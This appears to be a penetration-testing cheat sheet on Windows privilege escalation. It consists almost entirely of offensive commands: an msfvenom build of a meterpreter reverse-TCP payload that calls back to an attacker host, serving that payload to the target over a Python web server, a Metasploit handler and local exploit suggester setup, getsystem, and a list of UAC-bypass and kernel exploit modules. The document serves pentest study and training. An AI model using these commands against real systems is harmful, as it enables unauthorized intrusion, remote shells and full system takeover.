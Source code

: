 ### Windows Privilege Escalation

#### Kernel

```bash
# WIN KERNEL
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<LOCAL_HOST_IP> LPORT=<LOCAL_PORT> -f exe -o payload.exe

python3 -m http.server
# Download payload.exe on target
```

```bash
## Windows-Exploit-Suggester Install
mkdir Windows-Exploit-Suggester
cd Windows-Exploit-Suggester
wget https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/f34dcc186697ac58c54ebe1d32c7695e040d0ecb/windows-exploit-suggester.py
# ^^ This is a python3 version of the script

cd Windows-Exploit-Suggester
python ./windows-exploit-suggester.py --update
pip install xlrd --upgrade

./windows-exploit-suggester.py --database YYYY-MM-DD-mssb.xlsx --systeminfo win7sp1-systeminfo.txt

./windows-exploit-suggester.py --database YYYY-MM-DD-mssb.xlsx --systeminfo win2008r2-systeminfo.txt
```

```bash
## METASPLOIT
## Global set
setg RHOSTS <TARGET_IP>
setg RHOST <TARGET_IP>

use exploit/multi/handler 
options
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <LOCAL_HOST_IP>
set LPORT <LOCAL_PORT>

use post/multi/recon/local_exploit_suggester
set SESSION <HANDLER_SESSION_NUMBER>

## MsfConsole Meterpreter Privesc
getprivs
getsystem

# Exploitable vulnerabilities modules
exploit/windows/local/bypassuac_dotnet_profiler
exploit/windows/local/bypassuac_eventvwr
exploit/windows/local/bypassuac_sdclt
exploit/windows/local/cve_2019_1458_wizardopium
exploit/windows/local/cve_2020_1054_drawiconex_lpe
exploit/windows/local/ms10_092_schelevator
exploit/windows/local/ms14_058_track_popup_menu
exploit/windows/local/ms15_051_client_copy_image
exploit/windows/local/ms16_014_wmi_recv_notif
```
